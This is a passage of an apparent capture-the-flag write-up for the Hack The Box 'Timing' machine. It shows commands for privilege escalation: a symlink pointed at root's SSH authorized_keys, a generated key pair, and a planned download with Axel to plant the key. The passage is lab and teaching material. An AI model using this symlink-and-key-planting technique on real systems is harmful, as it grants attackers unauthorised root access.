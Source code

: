 1. Create a symlink:

```bash
aaron@timing:~$ ls -la
total 36
drwxr-x--x 5 aaron aaron 4096 Dec 25 07:19 .
drwxr-xr-x 3 root  root  4096 Dec  2  2021 ..
lrwxrwxrwx 1 root  root     9 Oct  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 aaron aaron  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aaron aaron 3771 Apr  4  2018 .bashrc
drwx------ 2 aaron aaron 4096 Nov 29  2021 .cache
drwx------ 3 aaron aaron 4096 Nov 29  2021 .gnupg
drwxrwxr-x 3 aaron aaron 4096 Nov 29  2021 .local
-rw-r--r-- 1 aaron aaron  807 Apr  4  2018 .profile
lrwxrwxrwx 1 aaron aaron   26 Dec 25 07:19 test -> /root/.ssh/authorized_keys
-rw-r----- 1 root  aaron   33 Dec 25 02:54 user.txt
lrwxrwxrwx 1 root  root     9 Oct  5  2021 .viminfo -> /dev/null
```

2. Generate an RSA key pair

```bash
┌──(kali㉿kali)-[~/…/HTB-CTF/Machines/Timing/www]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa
Your public key has been saved in ./id_rsa.pub
The key fingerprint is:
SHA256:BCWCAhXwY8Ef2hw53YeGaZbbQbAHY7GjvtmlWlMhcbE kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|+++o.oXX=o       |
|..o.=oBX=..      |
| .+= *=+Eo       |
| ...+..=..       |
|    .   S        |
|   .   .         |
|    . o .        |
|     = +         |
|    +.o          |
+----[SHA256]-----+
                                                                                                                                                             
┌──(kali㉿kali)-[~/…/HTB-CTF/Machines/Timing/www]
└─$ mv id_rsa.pub authorized_keys
                                                                                                                                                             
┌──(kali㉿kali)-[~/…/HTB-CTF/Machines/Timing/www]
└─$ ls    
test  id_rsa
```

3. use Axel to download the public key and write it to root's authorized_keys
